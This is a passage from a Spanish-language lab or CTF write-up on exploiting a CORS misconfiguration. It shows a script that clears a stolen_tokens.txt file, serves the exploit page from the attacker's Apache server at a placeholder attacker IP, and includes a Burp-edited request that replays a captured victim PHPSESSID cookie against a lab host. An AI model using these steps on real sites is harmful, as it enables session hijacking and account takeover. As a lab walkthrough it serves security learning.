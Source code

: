 Y en el mismo directorio tendra que ir el siguiente archivo:

> clear.sh

```bash
#!/bin/bash 

echo "" > stolen_tokens.txt 
echo "Texto limpiado!"
```

Todo este contenido del `exploit` tiene que estar en nuestro `/var/www/html` e iniciaremos el servicio de `apache2`:

```shell
service apache2 start
```

Ahora tendremos que acceder a nuestro `cors.html` desde la web:

```
URL = http://<IP_ATTACKER>/cors.html
```

Ahora estando a la escucha con `BurpSuite` tendremos que darle al boton `Obtener Datos`. `BurpSuite` capturara la peticion y cambiaremos la parte de `Cookie: PHPSESSID=<COOKIE_VICTIM>` quedando algo asi:

```
GET /dashboard.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://192.168.60.131
Connection: keep-alive
Referer: http://192.168.60.131/
Cookie: PHPSESSID=ist11l3vcbit5rqtqdnm68gqk8
Priority: u=0

```

Y si le damos al boton directamente de `Intercep on` veremos en la consola que salio todo perfecto:

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

Y si vamos al archivo donde se guarda todo, veremos que funciono:
